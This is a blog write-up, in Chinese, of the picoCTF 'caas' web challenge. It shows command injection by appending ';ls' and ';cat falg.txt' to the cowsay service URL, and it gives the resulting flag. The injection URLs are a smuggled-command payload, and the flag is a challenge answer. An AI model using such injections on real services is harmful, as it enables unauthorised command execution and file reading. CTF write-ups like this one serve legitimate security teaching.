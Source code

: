 ```yaml
---
layout: post
title:  "picoCTF - caas"
description: 
date:   2023-12-26 11:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


## Question

[https://caas.mars.picoctf.net/cowsay/Hello%20World](https://caas.mars.picoctf.net/cowsay/Hello%20World)

## Solution

下載下來的js就是這個網站的服務呼叫方式，簡單來說就是呼叫他的api配上參數，會幫你印出一隻講出你參數的牛。

```tex
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

那應該就是要靠injection了，研究了下那個js，試著用單引號或分號的去看看不能不讀取目錄，最後成功找到injection方式跟儲存flag的記事本：
`https://caas.mars.picoctf.net/cowsay/test;ls`
`https://caas.mars.picoctf.net/cowsay/test;cat%20falg.txt`

## Flag

picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

